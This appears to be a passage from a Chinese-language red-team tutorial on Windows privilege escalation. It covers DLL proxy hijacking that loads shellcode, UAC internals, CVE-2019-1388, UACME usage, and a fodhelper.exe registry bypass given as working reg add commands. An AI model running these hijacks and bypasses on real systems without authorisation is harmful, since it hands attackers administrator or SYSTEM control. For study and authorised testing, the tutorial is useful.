#### [](#642-%E5%88%A9%E7%94%A8)6.4.2 利用

[https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>SharpDllProxy.exe --dll /path/to/targetDLL.dll --payload shellcode.bin<br>``` |



现在需要将程序生成的源码进行编译，打开 VS 2019，选择创建新工程：



选择 C++ 语言，搜索 `Library` ，然后点击 `DLL`模板：



项目名称应该匹配我们要劫持的 DLL 名称。将工具生成的代码内容复制到 dllmain.cpp 中：


当 `DLL_PROCESS_ATTACH` 时间被触发时，DLL 会创建一个新线程。`DoMagic()` 函数从 shellcode.bin 读取 payload 到内存中，并执行。

下一步即可编译该 DLL 库文件，选择合适的架构：`x64/x86`，然后选择 `release`，build 即可。




## [](#7-bypass-uac)7 Bypass UAC

### [](#71-%E5%8E%9F%E7%90%86%E5%8F%8A%E6%A6%82%E5%BF%B5)7.1 原理及概念

> User Account Control(UAC)是在 Windows Vista 以后版本中引入的一种安全机制，针对具有有限权限的账户。通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置。

#### [](#711-uac-%E7%9A%84%E5%AE%9E%E7%8E%B0)7.1.1 UAC 的实现

ACL（Access Control List）：Windows 中所有资源都有 ACL ，这个列表决定了拥有何种权限的用户/进程能够这个资源。

在开启了 UAC 之后，如果用户是标准用户， Windows 会给用户分配一个标准 `Access Token` 如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌。一般情况下会以标准用户权限启动 Explorer.exe 进程。如果用户同意，则赋予完整管理员权限访问令牌进行操作。

#### [](#712-%E9%85%8D%E7%BD%AE-uac-%E7%AD%96%E7%95%A5)7.1.2 配置 UAC 策略

Win+R，输入 gpedit.msc，打开组策略，在「计算机配置 – Windows设置 – 安全设置 – 本地策略 – 安全选项」，再在右侧窗口找到「用户帐户控制： 管理员批准模式中管理员的提升权限提示的行为」，如下图：


-   不提示直接提升：关闭 UAC，需要权限时直接提升权限。
-   在安全桌面上提示凭据：需要权限时在安全桌面上输入管理员密码提升权限。
-   在安全桌面上同意提示：需要权限时在安全桌面上选择「允许」提升权限。
-   提示凭据：需要权限时在普通窗口中输入管理员密码提升权限。
-   同意提示：需要权限时在普通窗口中选择「允许」提升权限。
-   非 Windows 二进制文件的同意提示：(默认设置) 当非 Microsoft 应用程序的某个操作需要提升权限时，选择「允许」提升权限。

#### [](#713-%E6%8F%90%E7%A4%BA-uac-%E7%9A%84%E6%83%85%E5%86%B5)7.1.3 提示 UAC 的情况

因为普通应用执行权限有限，某些操作必然会要求更高的管理员权限。此时，通常就需要一个权限提升的操作。程序可以向系统请求提权，系统会将此请求通过提一个提示框，请用户确认。

触发 UAC 的行为：

-   配置Windows Update
-   增加或删除用户账户
-   改变用户的账户类型
-   改变 UAC 设置
-   安装 ActiveX
-   安装或移除程序
-   安装设备驱动程序
-   设置家长控制
-   将文件移动或复制到 Program Files 或 Windows 目录
-   查看其他用户文件夹

如果当前用户的用户组权限不是管理员，提权操作是要求输入管理员密码的，这点和在 Linux 中的相应操作类似。

-   程序只能在运行前要求提权。如果已经在运行了，那么将失去申请提权的能力
-   权限提升仅对此次进程有效

提升权限的操作大致有两个：

-   自动提权请求
-   手动提权请求

手动提权就是「以管理员身份运行」，自动提权请求就是程序本身就一运行就开始申请权限，如：注册表编辑器

在开发的过程中，程序员若要开发一个程序，可以在编译器配置，写入一个配置文件，用于向系统标识该应用程序是必须要管理员权限运行的。


-   aslnvoker 默认权限
-   highestAvailable 最高权限
-   requireAdministrator 必须是管理员权限

将编译选项调整为 requireAdministrator，当用户运行程序后，将获得管理员权限会话，不需要绕过 UAC 了。

manifest 中其实还有其他属性，如：autoElevate（自动提升）

### [](#72-auto-elevate-%E8%87%AA%E5%8A%A8%E6%8F%90%E5%8D%87%E6%9D%83%E9%99%90%E5%88%86%E6%9E%90)7.2 auto Elevate 自动提升权限分析

拥有自动权限提升属性的文件，会在启动时自动提升权限，而这些应用程序往往都具备微软的签名，微软认为它是可信的。故此，在该程序启动时，将会以管理员身份启动，假设通过 DLL 劫持，也能获得管理员权限。

但是：

-   可能分析成本较高
-   可能需要高权限才能够完成

#### [](#721-%E5%AF%BB%E6%89%BE-auto-elevate)7.2.1 寻找 auto Elevate

[https://github.com/g3rzi/Manifesto](https://github.com/g3rzi/Manifesto)


如果上述程序存在 DLL 劫持漏洞，那么普通用户就可以用低权限绕过 UAC 确认，以高权限执行任意代码。

#### [](#722-%E6%89%8B%E5%8A%A8-bypass-uac)7.2.2 手动 bypass UAC

`C:\Windows\system32\odbcad32.exe` 该程序用于配置 ODBC 数据源，但提供了一个输入点，那就是文件浏览器，通过文件浏览器我们可以打开一个管理员权限的 Powershell。




还有一个特别典型的例子就是：`CVE-2019-1388` 证书提权漏洞。

通过点击「展示证书发行者的详细信息」链接会触发 `consent.exe` 以 `SYSTEM` 权限打开浏览器访问此链接，然后此浏览器就会有 `SYSTEM` 权限。通过保存该浏览页面，会弹出微软的资源管理器，在资源管理器中邮件打开 `cmd.exe` 程序，就会继承浏览器的 `SYSTEM` 权限，由此就完成了由普通用户到 `NT AUTHORITY\SYSTEM` 用户的提权。

### [](#73-%E5%88%A9%E7%94%A8%E6%B3%A8%E5%86%8C%E8%A1%A8-bypass-uac)7.3 利用注册表 bypass UAC

一些高权限的程序会调用 `HKCR:\` 下的键值。

流程：

1.  通过修改 `HKCU:\` 下面的键值同步修改 `HKCR:\` 下的键值。
2.  把原本的键值改为 `cmd.exe` 等 shell 程序。
3.  如果高权限的程序在运行过程中调用此处被修改过的键值，就会以高权限启动我们设定的程序。
4.  如此便实现了 Bypass UAC。

常见的有：eventvwr.exe、fodhelper.exe，下面以 fodhelper.exe 为例：

-   Path：`C:\Windows\system32\fodhelper.exe`
-   REG：`HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f<br>reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f<br>``` |

在 msf 中已经集成了相应的利用方式。

### [](#74-uacme)7.4 UACME

工具地址：[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)，内含 60+ 种 BypassUAC 的方法

工具列表如下:

Akagi 是项目的主程序，其中包含了所有的 Methods，绕过 UAC 的主要方法的源码都在 Method 目录下，会以 UAC 绕过方法的发现者的名字来命名源文件。

clone 到本地后，用 VS2019 打开，选择 uacme.vcxproj，以 Release|x64 去 build，然后 `ctrl+b` build 项目，生成的项目在 source/Akag/output 下


使用 `vs2019` 本地编译后可以使用 `akagi32 41` 或者 `akagi64 41` 启动程序，`41` 这个指的是 `README` 中描述的方法索引，运行后可以直接得到管理员权限的 `cmd` 窗口：


## [](#8-%E8%87%AA%E5%8A%A8%E5%8C%96%E6%A3%80%E6%B5%8B)8 自动化检测

winPEAS

工具地址：[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

## [](#9-%E5%9C%9F%E8%B1%86%E7%B1%BB%E6%8F%90%E6%9D%83)9 土豆类提权

在「potato 家族提权分析」中已有介绍，再次不做赘述。

## [](#10-%E5%8F%82%E8%80%83)10 参考

-   [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
-   [https://www.xazlsec.com/index.php/archives/245/](https://www.xazlsec.com/index.php/archives/245/)
-   [https://at449.com/2020/04/09/2007/](https://at449.com/2020/04/09/2007/)
-   [https://www.xazlsec.com/index.php/archives/1164/](https://www.xazlsec.com/index.php/archives/1164/)
-   [酒仙桥六号部队 - 红队测试之Windows提权小结](https://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247486118&idx=1&sn=930334f1ff5c4346f99f3c48e5f0cb70&chksm=9b392c17ac4ea501b2b49bdcaa63f443764fda78fdd062f18a17fa22a1786c8d4a851d533e94&mpshare=1&scene=1&srcid=0127hS1fJmbt9ZCNjTeMKQtu&sharer_sharetime=1611715619297&sharer_shareid=06b3d2342860df5ceb4db092f2e007ae#rd)
-   [https://3gstudent.github.io/DLL劫持漏洞自动化识别工具Rattler测试/](https://3gstudent.github.io/DLL%e5%8a%ab%e6%8c%81%e6%bc%8f%e6%b4%9e%e8%87%aa%e5%8a%a8%e5%8c%96%e8%af%86%e5%88%ab%e5%b7%a5%e5%85%b7Rattler%e6%b5%8b%e8%af%95/)
-   [https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/](https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/)
-   [https://payloads.online/archivers/2020-03-02/2](https://payloads.online/archivers/2020-03-02/2)
-   [http://blog.leanote.com/post/snowming/ec21a4823438](http://blog.leanote.com/post/snowming/ec21a4823438)
